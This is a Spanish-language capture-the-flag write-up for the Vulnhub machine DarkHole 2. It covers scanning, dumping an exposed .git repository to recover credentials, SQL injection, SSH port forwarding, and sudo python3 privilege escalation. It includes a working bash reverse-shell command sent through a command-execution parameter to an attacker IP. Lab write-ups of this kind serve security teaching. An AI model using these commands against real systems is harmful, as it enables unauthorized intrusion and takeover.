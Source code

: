 ```yaml
---
layout: single
title: DarkHole 2 - Vulnhub
excerpt: "Para resolver esta máquina nos dimos cuenta qué a la hora del escaneo con Nmap nos reportó que el repositorio .Git estaba expuesto, nos aprovechamos de esto para ver los commit's, en unos de los commits obtendríamos credenciales en texto claro para acceder en la página Web como el desarrollador Web, posterior a ello llevamos a cabo un SQLI basada en UNION para obtener credenciales SSH, una vez dentro podíamos ver el historial descubriendo así servicio web internos de los cuales abusamos para convertinos en usuario privilegiado."
date: 11/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Information Leakage
  - GitHub Project Enumeration > creds
  - SQLI
  - ssh (Remote Port Forwarding)
  - abusing Internal Web Server
  - bash History - Information Leakage
  - abusing sudoers
---
```


# PortScan
____

```
# Nmap 7.93 scan initiated Sat Nov 11 10:30:18 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.204.160
Nmap scan report for 192.168.204.160
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57b1f564289891516d70766ea552435d (RSA)
|   256 cc64fd7cd85e488a289891b9e41e6da8 (ECDSA)
|_  256 9e7708a4529f338d9619ba757127bd60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   192.168.204.160:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-title: DarkHole V2
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:0C:29:DB:9D:4B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 11 10:30:25 2023 -- 1 IP address (1 host up) scanned in 7.00 seconds
```


Vemos qué está expuesto el repositorio **Git**

# WebSite
___


![](/assets/images/vulnhub-writeup-darkhole2/Pasted image 20231111125625.png)


No vemos nada sospechoso de primera, así qué procedemos a obtener el repositorio **Git** qué nos reportó el **Nmap** en local, con la herramienta [Git-Dumper](https://github.com/arthaud/git-dumper) para obtener lo qué parece ser el código fuente & ver sí podemos aprovecharnos de algo.
```bash
 ./git_dumper.py http://192.168.204.160/.git ~/192.168.204.160
```

Teniendo así en local el repositorio .**GIT.**

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111130205.png)
Otra forma de obtener los recursos **.git** en local, es con "wget".
```bash
wget -r http://192.168.204.160/.git/
```

Sí leemos el "**COMMIT_EDITMSG**" vemos qué se hizo un commit con nombre "**i changed login.php file for more secure**", así que podríamos tratar de ver como era el **login.php** antes del commit, logrando así verlo como era antes.

1. Vemos los log's commits hechos.
```bash
git log
```
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111131806.png)
Este commit tiene mala apariencia, porque aparentemente agregaron el login.php con las credentials default.

2. Entramos al commit qué nos interesa.
```bash
git show a4d900a8d85e8938d3601f3cef113ee293028e10
```

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111131937.png)

Logrando ver así las credenciales default en texto claro.


Probamos loguearnos con estas credenciales en el sitio web.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132127.png)


# SQL Injection
____



![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132136.png)

Hemos entrado como el usuario **Jehad Alqurashi**, qué aparentemente es desarollador web.

Buscando vulnerabilidades o de qué podríamos aprovecharnos de primera no encontré nada, pero fijandome en la **URL** ví qué probablemente sea vulnerable a **Inyecciones SQL**, así qué empiezo probando con un **sleep**.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132414.png)

Logrando así que dure 5 segundos en responder, esto confirmándonos que esta página es vulnerable a **Inyecciones SQL**, así que podríamos intentar ver credenciales de las base de datos de la página web.

1. Identificamos el número de columnas
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111132945.png)

2. Vemos las bases de Datos existentes.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133102.png)

3. Ver tablas existente de la DB qué nos interesa.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133205.png)

4. Ver columnas de la tabla que nos interesa.
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133410.png)

5. Ver contenido de las columnas qué nos interesan.
![](Pasted image 20231111133551.png)

Obteniendo así lo qué parece ser credenciales para conectarnos a través de SSH.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111133724.png)
___


# Escalada de Privilegios #1
____



Indagando, descubrimos qué el historial no tiene un enlace simbólico al **"/dev/null"**, por lo qué podríamos tratar de ver sí contiene algo de lo que podrimos aprovecharnos.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111134155.png)

Encontramos qué local de la máquina por el puerto **:9999** sé está usando un código para mediante los parámetros "**?cmd=**'" indicar qué comandos se quieren ejecutar.

De primera pienso que eso lo ejecuta el mismo usuario del sistema "**jehad**", pero para corroborarlo hago un **Remote Port Forwarding** para que el **:9999** de la máquina víctima sea el **:9999** de mi máquina, esto a través de SSH tal que así.
```bash
ssh jehad@192.168.204.160 -L 9999:127.0.0.1:9999
```

De forma qué entro al 9999 en local, y utilizó los parámetros que nos chivó el historial de Bash, ejecutando un "whoami"
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111141545.png)

Para mi sorpresa, el **RCE** lo ejecuta el usuario "**losy**", por lo qué se me ocurre migrar a este usuario mediante una **Reverse Shell,** esto a ver sí encontramos otra forma de migrar a ROOT.

```bash
http://localhost:9999/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.204.130/443 0>%261"
```

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111141841.png)

Ahora quedaría darle **Tratamiento a la TTY**, sino sabemos como te recomiendo [((CLICKEAR AQUÍ))](https://4uli.github.io/tratamiento-tty/)

________

# Escalada de Privilegios #2
____


Estando como "**Losy**", también podemos ver el historial de Bash, así qué echándole un ojo encontraríamos las credenciales de la misma **Losy**.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111142208.png)

Por lo qué se me ocurre ver los permisos **SUDOERS**.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111142324.png)

Encontraríamos que tenemos permisos **SUDOERS** como ROOT para python3, por lo qué podríamos aprovecharnos de esto para escalar nuestro privilegio.

1. Abrimos Python3 como Root.
```bash
sudo /usr/bin/python3
```

2. Colocamos las siguientes líneas:
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231111142707.png)

